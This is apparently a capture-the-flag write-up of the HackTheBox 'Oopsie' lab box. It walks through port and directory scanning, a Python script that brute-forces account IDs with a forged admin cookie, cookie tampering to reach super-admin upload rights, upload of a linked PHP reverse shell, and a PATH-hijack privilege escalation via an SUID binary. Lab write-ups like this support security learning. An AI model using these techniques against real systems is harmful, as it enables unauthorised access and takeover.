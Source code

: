 # HackTheBox - Oopsie Writeup


## Enumeration

- Top 1000 ports scan

```bash
nmap -sC -sV -oN nmap/inital 10.10.10.28
```

![nmap initial scan](2.png "nmap initial scan")

- all ports scan

```bash
nmap -sC -sV -p- -oN nmap/all_ports 10.10.10.28
```

![nmap allports scan](3.png "nmap allports scan")

- Still the same result 
- Open ports
	- port 22 / ssh 
	- port 80 / http


### The Website
![MegaCorp Automotive webpage](4.png "MegaCorp Automotive webpage")

### Gobuster
- Auto recon in the background
- looking the hidden directory

```bash
gobuster dir -u http://10.10.10.28 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster.log
```
- The result

![gobuster](5.png "gobuster")

This webpage have an upload directory.

### Login Page
- Found something insteresting in the source code


![view source code](6.png "view source code")

- the directory into `/cdn-cgi/login/script.js`
- navigate into `http://10.10.10.28/cdn-cgi/login`
- found the login page

![login page](7.png "login page")

- Got the credentials in previous box called [Archetype](https://shafiqaiman.com/posts/htb/archetype/) _in official pdf_
- Successfully login as admin

![admin webpage](8.png "admin webpage")

### Can't Upload
- navigate to the upload page
- it says `super admin` have right to view it

![can't view upload page](9.png "can't view upload page")

### The ID

![id parameter](10.png "id parameter")

- This page appear to be `user table` base on the `id parameter` in the link
- Making `python script` for IDs brute-force 

## Foothold/Gaining Access

### Python Script
- python script for ID brute force
- need cookies for authentication

```python
#!/usr/bin/env python3

import requests

for i in range(101):
    url = f"http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id={i}"
    c = {'user':'34322','role':'admin'}
    r = requests.get(url, cookies=c)

    if len(r.content) == 3595: # nothing appear just pass it
        pass
    else:
        print(f"Check this ID out {i}")
print("Done")
```
- The result

![brute-force id](11.png "brute-force id")

- Here is the ID lead to (in order)

```javascript
{'access id':'34322','name':'admin','email':'admin@megacorp.com'}
{'access id':'8832','name':'john','email':'john@tafcz.co.uk'}
{'access id':'57633','name':'Peter','email':'peter@qpic.co.uk'}
{'access id':'28832','name':'Rafol','email':'tom@rafol.co.uk'}
{'access id':'xxxxx','name':'super admin','email':'superadmin@megacorp.com'}
```

### Upload as super admin
- Found the super admin table

![found superadmin table](12.png "found superadmin table")

- Turns out the `Access ID` it is the `cookie value`
- Change the admin cookies into super admin

![admin cookie](13.png "admin cookie") <br>_before_

![superadmin cookie](14.png "superadmin cookie") <br>_after refresh the page_

### Reverse Shell
- Upload the php reverse shell
  - [Here is the source ](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

![upload php reverse shell](15.png "upload php reverse shell")

- Activated the reverse shell
  - through this link

![execute the shell](16.png "execute the shell")

- Got the shell

![shell as www-data](17.png "shell as www-data")

### www-data
- Found the credentials in file called `db.php`
- in `/var/www/html/cdn-cgi/login/db.php`

![found robert credentials](18.png "found robert credentials")

### Robert
- Login as robert

![change user to robert](19.png "change user to robert")

### User Flag

![user flag](20.png "user flag")

- Find the <font color="yellow">SUID</font>
- The command for find it

```bash
find / -user root -perm -4000 -exec ls {} \; 2>/dev/null
```
- Found weird binary that not suppose to be there

![find all SUID](21.png "find all SUID")

## Privilege Escalation

### Bugtracker
- This is how it works
- However it says `no such file or directory`

![cat error](22.png "cat error")

- Try `strings` out the binary 
- Turns out this binary use `cat command`
- However this is use relative path

![strings bugtracker](23.png "strings bugtracker")

- explain the _`relative & absolute path`_

![relative & absolute path differences](24.png "relative & absolute path differences")

### Relative Path Abused
- Make a fake `cat command`
	- by puting `/bin/bash` in it
	- the bugtracker binary will execute this fake file as `root`
	- [source for relative path abused](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

![shell as root](25.png "shell as root")

### Root Flag

![root flag](26.png "root flag")

## Conclusion
I’ve learned a lot today. Never put the user ID as cookies value and make sure you configure the website properly. Lastly, make sure to configure the SUID binary carefully and do not put any untrust or unpatched version as SUID

I have a fun time doing this machine and I hope you guys too. Bye ;)
